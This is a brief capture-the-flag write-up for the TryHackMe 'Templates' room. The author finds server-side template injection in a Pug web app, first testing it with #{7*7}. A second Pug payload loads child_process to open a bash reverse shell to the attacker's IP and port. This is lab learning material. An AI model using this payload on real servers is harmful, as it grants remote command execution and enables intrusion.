




# TryHackMe Templates Room
[Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.



from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```



then click convert will return this



after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code



<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
